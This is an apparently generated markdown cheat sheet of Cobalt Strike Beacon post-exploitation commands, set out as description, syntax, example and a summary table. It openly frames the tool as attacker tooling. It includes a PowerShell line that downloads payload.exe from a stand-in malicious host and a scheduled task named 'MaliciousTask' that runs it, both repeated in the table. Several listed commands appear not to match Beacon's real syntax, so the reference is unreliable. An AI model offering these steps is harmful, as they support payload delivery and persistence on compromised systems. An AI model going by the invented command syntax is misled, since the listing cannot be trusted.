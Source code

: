 Here’s an overview of **Cobalt Strike's Beacon**, a powerful payload and communication tool used for post-exploitation. Beacon is known for its versatility in providing remote access and control to compromised systems, with capabilities for command execution, data exfiltration, and lateral movement.

### **Cobalt Strike's Beacon**

**Beacon** is a component of Cobalt Strike that allows attackers to interact with compromised systems in a stealthy manner. It supports various communication channels and provides extensive functionalities for exploitation and persistence.

#### **Common Commands and Options**

1. **Start Beacon:**
   - **Description:** Start the Beacon payload on the compromised system.
   - **Command:**
     ```bash
     beacon
     ```
   - **Example:**
     ```bash
     beacon
     ```
   - **Explanation:**
     - Starts the Beacon session for the Cobalt Strike client to interact with.

2. **Interact with Beacon:**
   - **Description:** Interact with the Beacon session.
   - **Command:**
     ```bash
     interact <session_id>
     ```
   - **Example:**
     ```bash
     interact 1
     ```
   - **Explanation:**
     - Connects to the Beacon session with ID `1`.

3. **Execute Commands:**
   - **Description:** Execute commands on the target system.
   - **Command:**
     ```bash
     exec <command>
     ```
   - **Example:**
     ```bash
     exec whoami
     exec ipconfig
     ```
   - **Explanation:**
     - Executes `whoami` or `ipconfig` on the target system.

4. **Upload/Download Files:**
   - **Description:** Transfer files to and from the target system.
   - **Commands:**
     - **Upload File:**
       ```bash
       upload <local_path> <remote_path>
       ```
     - **Download File:**
       ```bash
       download <remote_path> <local_path>
       ```
   - **Example:**
     - **Upload:**
       ```bash
       upload ./localfile.txt C:\Users\Public\remote.txt
       ```
     - **Download:**
       ```bash
       download C:\Users\Public\remote.txt ./localfile.txt
       ```
   - **Explanation:**
     - Uploads or downloads files between local and remote systems.

5. **Inject Payloads:**
   - **Description:** Inject a payload into a process on the target system.
   - **Command:**
     ```bash
     inject <process_id> <payload>
     ```
   - **Example:**
     ```bash
     inject 1234 reverse_tcp
     ```
   - **Explanation:**
     - Injects a specified payload into the process with ID `1234`.

6. **Pivoting:**
   - **Description:** Use Beacon to pivot into other networks or systems.
   - **Command:**
     ```bash
     pivot <target_network>
     ```
   - **Example:**
     ```bash
     pivot 192.168.1.0/24
     ```
   - **Explanation:**
     - Configures Beacon to pivot into the specified network.

7. **Run Powershell Scripts:**
   - **Description:** Execute PowerShell scripts on the target system.
   - **Command:**
     ```bash
     powershell <script>
     ```
   - **Example:**
     ```bash
     powershell "Invoke-WebRequest -Uri http://malicious.example.com -OutFile C:\temp\payload.exe"
     ```
   - **Explanation:**
     - Executes the specified PowerShell script on the target system.

8. **Schedule Tasks:**
   - **Description:** Schedule tasks to be executed on the target system.
   - **Command:**
     ```bash
     schedule <task_name> <command> <time>
     ```
   - **Example:**
     ```bash
     schedule "MaliciousTask" "C:\temp\payload.exe" "2024-08-20T12:00:00"
     ```
   - **Explanation:**
     - Schedules a task to run the specified command at a given time.

9. **Monitor Network Traffic:**
   - **Description:** Monitor network traffic on the target system.
   - **Command:**
     ```bash
     network
     ```
   - **Example:**
     ```bash
     network
     ```
   - **Explanation:**
     - Monitors and lists network traffic on the target system.

10. **Retrieve System Information:**
    - **Description:** Get detailed information about the target system.
    - **Command:**
      ```bash
      sysinfo
      ```
    - **Example:**
      ```bash
      sysinfo
      ```
    - **Explanation:**
      - Retrieves system information such as OS version, architecture, and installed software.

### **Summary of Beacon Commands**

| **Command**                  | **Description**                                      | **Example**                                     |
|------------------------------|------------------------------------------------------|-------------------------------------------------|
| `beacon`                     | Start the Beacon payload                             | `beacon`                                        |
| `interact <session_id>`      | Interact with a specific Beacon session              | `interact 1`                                    |
| `exec <command>`             | Execute a command on the target system               | `exec whoami`                                   |
| `upload <local_path> <remote_path>` | Upload a file to the target system             | `upload ./localfile.txt C:\Users\Public\remote.txt` |
| `download <remote_path> <local_path>` | Download a file from the target system          | `download C:\Users\Public\remote.txt ./localfile.txt` |
| `inject <process_id> <payload>` | Inject a payload into a process                     | `inject 1234 reverse_tcp`                       |
| `pivot <target_network>`     | Use Beacon to pivot into other networks              | `pivot 192.168.1.0/24`                          |
| `powershell <script>`        | Execute a PowerShell script                          | `powershell "Invoke-WebRequest -Uri http://malicious.example.com -OutFile C:\temp\payload.exe"` |
| `schedule <task_name> <command> <time>` | Schedule a task on the target system          | `schedule "MaliciousTask" "C:\temp\payload.exe" "2024-08-20T12:00:00"` |
| `network`                    | Monitor network traffic on the target system         | `network`                                       |
| `sysinfo`                    | Retrieve system information                          | `sysinfo`                                       |

Beacon is a versatile and powerful component of Cobalt Strike, providing a wide range of functionalities for remote administration, exploitation, and management of compromised systems.